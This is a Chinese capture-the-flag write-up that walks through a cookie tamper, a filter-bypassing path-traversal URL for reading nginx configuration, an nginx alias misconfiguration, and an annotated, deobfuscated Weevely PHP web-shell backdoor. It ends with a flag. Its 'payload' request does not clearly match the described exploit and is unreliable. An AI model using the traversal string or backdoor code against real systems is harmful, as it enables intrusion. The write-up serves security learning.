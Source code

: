 # Web_php_wrong_nginx_conf

## 思路分析

> 打开网站,是一个登录界面,没有注册页面.扫目录,发现存在robots.txt,得到2个路径hint.php和Hack.php.访问hint.php提示配置文件存在问题,下一步就是读取这个配置文件了.前面扫目录时也发现存在/admin路径,访问提示请继续.burp抓了下数据包,发现请求时cookie中有个字段isLogin=0,改为1可以访问页面.多点几下,发现/admin/admin.php?file=index&ext=php这个url,这里可能存在任意文件访问漏洞.路径中尝试../返回正常,使用?file=in./dex&ext=php返回错误说明./可以利用.最终用/admin/admin.php?file=..././..././..././..././..././..././..././etc/nginx/sites-enabled/site.conf&ext=读取到了配置文件.翻看配置文件,发现了

```
; } location /web-img { alias /images/; autoindex on
```
> 说明/web-img目录存在问题,直接访问,发现可以访问,使用/web-img../得到了根目录,测试发现有权限读取的只有/var/www/这个目录,访问发现存在hack.php.bak文件,下载下来分析.

> 这个其实是Weevely生成的php木马,用文件内容先是进行字符串拼接,然后替换字符,并用最终结果创建函数,格式化后内容为

```
<?php
$kh = "42f7";

$kf = "e9ac";

// 循环异或加密解密，密钥 $k
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}
$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
if($rr&&$ra){
    // 将 referer 的 query string 的 各个 value 取出到 $q
    $u=parse_url($rr); // parse referer, return array, keys: scheme,host,port,user,pass,path,query,fragment
    parse_str($u["query"],$q); // parse query string into $q (array).
    $q=array_values($q);        // array values 

    // 分析 Accept-Language，提取 每种语言的首字母和权重数字。
    // Searches $ra for all matches to the regular expression given and puts them in $m
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
    if($q&&$m){
        @session_start();
        $s=&$_SESSION;
        $ss="substr";
        $sl="strtolower";
        $i=$m[1][0].$m[1][1];              // 两组首字母
        $h=$sl($ss(md5($i.$kh),0,3)); // md5($i . $kh) 的前三个字符小写。攻击时附在 $p 开头
        $f=$sl($ss(md5($i.$kf),0,3)); // $p 是编码后 Payload，攻击时附加到 $p 后面

        // 拼接 Payload
        $p="";
        for($z=1;$z<count($m[1]);$z++)  // 从 $q 中取出 $m 正则匹配到的第 2 组中索引 1 -- count($m[1])-1 的值 (0-9) 作为键的值连接，得到 $p
            $p.=$q[$m[2][$z]];         // 上例（language）, $p .= $q[8]


        // 去除 $p Payload 开头的 $h
        if(strpos($p,$h)===0){        // $h 在 $p[0] 位置出现。
            $s[$i]="";        // $_SESSION[$i] = '', $i 是正则匹配到的两组首字母
            $p=$ss($p,3);    // $p 从第 3 个字符开始的子串，去掉 $h
        }
        if(array_key_exists($i,$s)){         // exist $s[$i], $_SESSION[$i] , if 条件必须有 上文 $h 在 $p[0] 位置出现
            $s[$i].=$p;
            $e=strpos($s[$i],$f);   // $f 是 md5 前三个字符小写，在 $s[$i]
            if($e){    // 必须有 $f 作为“停止字符串”
                $k=$kh.$kf; // 4f7f28d7
                ob_start();
                /*
                去除末尾的 $f
                URL safe base64 还原为普通 base64
                base64 解码
                循环异或解密
                zlib 解码，还原出 PHP 代码
                执行 PHP 代码
                */
                //@eval(@gzuncompress(@x(@base64_decode( preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e)) ),$k)));
                echo "CMD WILL EXEC:\n<br />";
                echo(@gzuncompress(@x(@base64_decode( preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e)) ),$k)));
                $o=ob_get_contents();  // output
                ob_end_clean();
                $d=base64_encode(x(gzcompress($o),$k));  // 编码
                print $o;
                //print("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
?>
```

## payload

```
GET /profile.wtf?user=jlvfK HTTP/1.1
Host: 61.147.171.105:62296
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62296/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D; USERNAME=admin; TOKEN=uYpiNNf/X0/0xNfqmsuoKFEtRlQDwNbS2T6LdHDRWH5p3x4bL4sxN0RMg17KJhAmTMyr8Sem++fldP0scW7g3w==
Connection: close
```

## flag

> ctf{a57b3698-eeae-48c0-a669-bafe3213568c}

## 参考

> https://phuker.github.io/posts/weevely-backdoor-code-analysis.html